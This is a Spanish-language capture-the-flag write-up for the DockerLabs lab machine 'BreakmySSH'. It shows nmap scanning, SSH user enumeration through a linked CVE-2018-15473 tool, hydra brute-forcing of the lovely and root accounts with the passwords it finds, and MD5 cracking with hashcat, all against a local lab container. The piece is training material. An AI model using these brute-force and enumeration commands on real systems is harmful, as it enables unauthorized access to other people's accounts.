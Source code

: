 ```yaml
---
title: BreakmySSH
description:
author: cyb3ar
date: 2025-03-20
pin: true
math: true
mermaid: true
image:
  path: /assets/images/dklabs/ve/breakmyssh/Banner.png
  alt: 

machine: breakmyssh
platform: dklabs
difficult: ve #ve VeryEase, e Easy, m Medium, h hard, vh veryhard, i insane
categories: [DockerLabs, VeryEasy]
tags: [enumeration,SSH Brute Force,CVE,Fuzzing SSH Users]
---
```


## Pasos Iniciales

- Descargar la maquina {{page.title}} de [DockerLabs](https://dockerlabs.es/)
- Teniendo la maquina en nuestro equipo debemos correr el siguiente comando para descomprimirla:

```bash
unzip {{page.title}}.zip
```

- Procedemos a iniciar maquina {{page.title}} con el siguiente comando:

```bash
#Con esto damos permisos de ejecución al archivo encargado de desplegarnos la máquina.
sudo chmod +x auto_deploy.sh
#Levantamos la maquina objetivo
sudo bash auto_deploy.sh {{page.title}}.tar
```

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->

> A partir de este momento ya tenemos nuestra maquina objetivo lista para comenzar a jugar con ella.
{: .prompt-info }

<!-- markdownlint-restore -->

----------------------------------------------------------------------------

## Reconocimiento y Enumeración

Para iniciar con esta máquina debemos verificar conexión con la maquina objetivo. Para ello le lanzamos el comando ping:

```bash
ping -c 1 172.17.0.2
```

Con este comando podemos ver que la maquina esta activa y tenemos alcance hacia ella. 

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Ping.png)

Ahora que sabemos que el equipo este activo procedemos a realizar un escaneo de puertos, servicios y versiones utilizando la herramienta Nmap.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

Este comando al ejecutarlo con estos parámetros le estamos indicando lo siguiente:

```bash
-p- Escanea los 65535 puertos existentes
--open Reporta solo los puertos abiertos
-sS Realiza un stealth Scan el cual no completa el three-way handshake (SYN / SYN-ACK / RST)
--min-rate 5000 Procesa no menos de 5000 paquetes por segundo
-vvv Permitimos que nos retorne la salida conforme va procesando
-n Desactivamos resolucion de DNS
-Pn Desactivamos el HostDiscovery
```

---------------------------------------------------------------------------------

Podemos ver que la maquina tiene 1 puerto abierto el 22 TCP

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Nmap1.png)

### Identificación de versiones y posibles vulnerabilidades

```bash
nmap -p 22,80 -sVC 172.17.0.2
```

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Nmap2.png)

Tenemos el servicio SSH corriendo en el puerto 22 con la versión OpenSSH 7.7, validamos si existen exploit para esa versión de SSH con searchsploit.

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Searchsploit.png)

Sin embargo, en lo personal utilice otro recurso para lograr enumerar usuarios.

[GitHub - CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473)

## Fuzzing

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Fuzzing.png)

Encontramos el usuario lovely.

## Explotación 

Ahora como conocemos un usuario (lovely y por general existe un usuario root) vamos a probar con fuerza bruta conseguir la contraseña de los usuarios para conectarnos al servicio SSH. Para ello usaremos hydra con el siguiente comando:

```bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/hydra1.png)

Hemos encontrado ambas contraseñas lovely:rockyou y root:estrella con la cual nos podemos conectar por ssh al usuario de root.

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Lovely.png)

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Root.png)

Y con esto hemos terminado la maquinita.

## Otra Posible Escalada

Si solo hubiéramos encontrado lovely y tuviéramos que realizar la Escalada en el directorio opt nos damos cuenta que existe un archivo .hash

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/hash.png)

en el cual nos encontramos el siguiente hash

```text
aa87ddc5b4c24406d26ddad771ef44b0
```

Si lo traemos a nuestra maquina atacante y podemos usar Hashcat para identificar el tipo y hash y crackearlo
le pasamos el hash a hashid y nos indica que pude ser cualquier de estos tipos, pero intuyendo probamos con md5

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Hashid.png)

```bash 
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
```

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Hashcat.png)

Y tenemos la contraseña.

![](/assets/images/{{page.platform}}/{{page.difficult}}/{{page.machine}}/Cracked.png)

Y con esto hemos terminado la maquinita...